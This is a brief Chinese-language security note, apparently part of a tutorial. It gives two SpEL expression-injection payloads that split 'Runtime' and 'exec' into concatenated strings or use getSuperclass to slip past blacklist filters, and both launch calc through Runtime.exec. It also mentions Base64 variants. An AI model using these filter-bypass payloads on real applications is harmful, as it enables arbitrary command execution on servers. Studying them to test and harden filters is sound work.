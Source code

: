 比如Runtime的绕过  
`T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})`  
如果ban了getClass还可以getSuperClass  
`''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')`  
还有各种比如Base64之类的。自己试试就知道了